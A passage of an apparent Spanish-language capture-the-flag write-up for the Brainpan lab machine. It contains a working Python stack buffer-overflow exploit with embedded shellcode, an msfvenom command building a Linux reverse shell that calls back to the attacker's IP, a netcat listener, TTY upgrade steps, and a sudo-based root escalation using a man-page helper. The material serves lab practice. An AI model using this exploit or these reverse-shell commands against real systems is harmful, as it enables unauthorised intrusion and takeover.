"\xf9\x4e\xaf\x14\x93\x7e\xf9\x8f\x0c\xe6\xa0\x5b\xac\xe7"
"\x7e\x26\xee\x6c\x8d\xd7\xa1\x84\xf8\xcb\x56\x65\xb7\xb1"
"\xf1\x7a\x6d\xdd\x9e\xe9\xea\x1d\xe8\x11\xa5\x4a\xbd\xe4"
"\xbc\x1e\x53\x5e\x17\x3c\xae\x06\x50\x84\x75\xfb\x5f\x05"
"\xfb\x47\x44\x15\xc5\x48\xc0\x41\x99\x1e\x9e\x3f\x5f\xc9"
"\x50\xe9\x09\xa6\x3a\x7d\xcf\x84\xfc\xfb\xd0\xc0\x8a\xe3"
"\x61\xbd\xca\x1c\x4d\x29\xdb\x65\xb3\xc9\x24\xbc\x77\xe9"
"\xc6\x14\x82\x82\x5e\xfd\x2f\xcf\x60\x28\x73\xf6\xe2\xd8"
"\x0c\x0d\xfa\xa9\x09\x49\xbc\x42\x60\xc2\x29\x64\xd7\xe3"
"\x7b";
Cambiamos Script de python
import socket
import sys
import time
ip = "10.201.55.82"
port = 9999
timeout = 5
message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16
payload = (b"\xd9\xea\xd9\x74\x24\xf4\xbd\x92\x5d\xa2\x17\x58\x31\xc9"
b"\xb1\x52\x83\xc0\x04\x31\x68\x13\x03\xfa\x4e\x40\xe2\x06"
b"\x98\x06\x0d\xf6\x59\x67\x87\x13\x68\xa7\xf3\x50\xdb\x17"
b"\x77\x34\xd0\xdc\xd5\xac\x63\x90\xf1\xc3\xc4\x1f\x24\xea"
b"\xd5\x0c\x14\x6d\x56\x4f\x49\x4d\x67\x80\x9c\x8c\xa0\xfd"
b"\x6d\xdc\x79\x89\xc0\xf0\x0e\xc7\xd8\x7b\x5c\xc9\x58\x98"
b"\x15\xe8\x49\x0f\x2d\xb3\x49\xae\xe2\xcf\xc3\xa8\xe7\xea"
b"\x9a\x43\xd3\x81\x1c\x85\x2d\x69\xb2\xe8\x81\x98\xca\x2d"
b"\x25\x43\xb9\x47\x55\xfe\xba\x9c\x27\x24\x4e\x06\x8f\xaf"
b"\xe8\xe2\x31\x63\x6e\x61\x3d\xc8\xe4\x2d\x22\xcf\x29\x46"
b"\x5e\x44\xcc\x88\xd6\x1e\xeb\x0c\xb2\xc5\x92\x15\x1e\xab"
b"\xab\x45\xc1\x14\x0e\x0e\xec\x41\x23\x4d\x79\xa5\x0e\x6d"
b"\x79\xa1\x19\x1e\x4b\x6e\xb2\x88\xe7\xe7\x1c\x4f\x07\xd2"
b"\xd9\xdf\xf6\xdd\x19\xf6\x3c\x89\x49\x60\x94\xb2\x01\x70"
b"\x19\x67\x85\x20\xb5\xd8\x66\x90\x75\x89\x0e\xfa\x79\xf6"
b"\x2f\x05\x50\x9f\xda\xfc\x33\xaa\x13\x0a\xe7\xc2\x21\xf2"
b"\xf9\x4e\xaf\x14\x93\x7e\xf9\x8f\x0c\xe6\xa0\x5b\xac\xe7"
b"\x7e\x26\xee\x6c\x8d\xd7\xa1\x84\xf8\xcb\x56\x65\xb7\xb1"
b"\xf1\x7a\x6d\xdd\x9e\xe9\xea\x1d\xe8\x11\xa5\x4a\xbd\xe4"
b"\xbc\x1e\x53\x5e\x17\x3c\xae\x06\x50\x84\x75\xfb\x5f\x05"
b"\xfb\x47\x44\x15\xc5\x48\xc0\x41\x99\x1e\x9e\x3f\x5f\xc9"
b"\x50\xe9\x09\xa6\x3a\x7d\xcf\x84\xfc\xfb\xd0\xc0\x8a\xe3"
b"\x61\xbd\xca\x1c\x4d\x29\xdb\x65\xb3\xc9\x24\xbc\x77\xe9"
b"\xc6\x14\x82\x82\x5e\xfd\x2f\xcf\x60\x28\x73\xf6\xe2\xd8"
b"\x0c\x0d\xfa\xa9\x09\x49\xbc\x42\x60\xc2\x29\x64\xd7\xe3"
b"\x7b")
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + payload + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()

No podemos acceder como root, la máquina es un poco extraña ya que ganamos un consola de windows pero los directorios en la maquina parece que es un máquina Linux.
Z:\bin>uname -a
Z:\bin>Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux

Exploit¶
Vamos a modificar msfvenom pero para crear un payload para Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.9.244.36 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] =
"\xbe\x7d\xec\x9d\x79\xda\xd1\xd9\x74\x24\xf4\x5f\x33\xc9"
"\xb1\x12\x31\x77\x12\x83\xc7\x04\x03\x0a\xe2\x7f\x8c\xc5"
"\x21\x88\x8c\x76\x95\x24\x39\x7a\x90\x2a\x0d\x1c\x6f\x2c"
"\xfd\xb9\xdf\x12\xcf\xb9\x69\x14\x36\xd1\x63\xef\x3c\x05"
"\x1c\xed\xbc\x54\x80\x78\x5d\xe6\x5e\x2b\xcf\x55\x2c\xc8"
"\x66\xb8\x9f\x4f\x2a\x52\x4e\x7f\xb8\xca\xe6\x50\x11\x68"
"\x9e\x27\x8e\x3e\x33\xb1\xb0\x0e\xb8\x0c\xb2";
Modificamos nuestro Scrip nuevamente
import socket
import sys
import time
ip = "10.201.55.82"
port = 9999
timeout = 5
message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16
payload = (b"\xbe\x7d\xec\x9d\x79\xda\xd1\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x12\x31\x77\x12\x83\xc7\x04\x03\x0a\xe2\x7f\x8c\xc5"
b"\x21\x88\x8c\x76\x95\x24\x39\x7a\x90\x2a\x0d\x1c\x6f\x2c"
b"\xfd\xb9\xdf\x12\xcf\xb9\x69\x14\x36\xd1\x63\xef\x3c\x05"
b"\x1c\xed\xbc\x54\x80\x78\x5d\xe6\x5e\x2b\xcf\x55\x2c\xc8"
b"\x66\xb8\x9f\x4f\x2a\x52\x4e\x7f\xb8\xca\xe6\x50\x11\x68"
b"\x9e\x27\x8e\x3e\x33\xb1\xb0\x0e\xb8\x0c\xb2")
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + payload + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()
nos ponemos en escucha con nc
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.9.244.36] from (UNKNOWN) [10.201.55.82] 54229
whoami
puck
uname -a
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
ifconfig
eth0 Link encap:Ethernet HWaddr 16:ff:d3:b1:76:17
inet addr:10.201.55.82 Bcast:10.201.127.255 Mask:255.255.128.0
inet6 addr: fe80::14ff:d3ff:feb1:7617/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:9001 Metric:1
RX packets:181825 errors:0 dropped:0 overruns:0 frame:0
TX packets:179378 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:9270316 (9.2 MB) TX bytes:13540591 (13.5 MB)
Interrupt:74
lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:16436 Metric:1
RX packets:0 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)
Cargamos un bash para mejor manejo de la terminal
stty size
nc -nvlp 443
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
# maquina pwned
export TERM=xterm
export SHELL=bash
stty rows 52 columns 208
Privilege Escalation¶
Tenemos permisos como root de algunas cosas, pero solo funciona el manual

En gtfobins podemos encontrar como escalar privilegios como root

sudo /home/anansi/bin/anansi_util manual whoami
root@brainpan:/usr/share/man# whoami
root
root@brainpan:/usr/share/man#
root@brainpan:~# cat b.txt
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
http://www.techorganic.com